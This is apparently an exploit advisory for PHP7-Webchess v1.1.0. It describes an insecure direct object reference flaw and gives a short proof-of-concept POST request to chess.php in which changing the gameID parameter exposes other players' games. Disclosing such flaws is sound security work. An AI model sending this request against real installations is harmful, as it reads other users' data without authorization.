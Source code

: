 # Exploit Title: PHP7-Webchess v1.1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view the result of game that is created for other players(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /chess.php HTTP/1.1
...

rdoShare=no&gameID=1(CHANGE HERE)&sharePC=no
```